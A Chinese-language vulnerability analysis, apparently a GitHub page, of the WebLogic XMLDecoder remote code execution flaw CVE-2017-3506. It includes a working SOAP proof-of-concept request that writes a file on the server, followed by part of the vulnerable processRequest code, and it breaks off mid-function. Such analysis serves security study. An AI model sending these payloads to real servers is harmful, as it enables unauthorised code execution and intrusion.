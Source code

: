 # XMLDecoder RCE起源: CVE-2017-3506

## 0x00 描述

CVE-2017-3506是一个XML Decoder RCE，并且在这个漏洞之后，针对Oracle发布的补丁，又陆续出现了其他的绕过方式，出现了CVE-2017-10271，CVE-2019-2725等。

本文是介绍起源，即CVE-2017-3506。

## 0x01 PoC

Weblogic: 10.3.6

Post URL: http://172.16.100.97:7001/wls-wsat/CoordinatorPortType

Post Body:

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
	<soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.6.0" class="java.beans.XMLDecoder">
                <object class="java.io.PrintWriter">
                    <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                    <string>xmldecoder_vul_test444</string></void><void method="close"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
​																				*信息 1*



##0x02 漏洞描述

本小节主要描述cve-2017-3506的漏洞代码。漏洞点主要是processRequest这个函数。

1. processRequest

   `weblogic/wsee/jaxws/workcontext/WorkContextServerTube.class`

    ```java
    public NextAction processRequest(Packet var1) {
        this.isUseOldFormat = false;
        if (var1.getMessage() != null) {
            HeaderList var2 = var1.getMessage().getHeaders();
            Header var3 = var2.get(WorkAreaConstants.WORK_AREA_HEADER, true);
            if (var3 != null) {
                this.readHeaderOld(var3);
                this.isUseOldFormat = true;
            }
   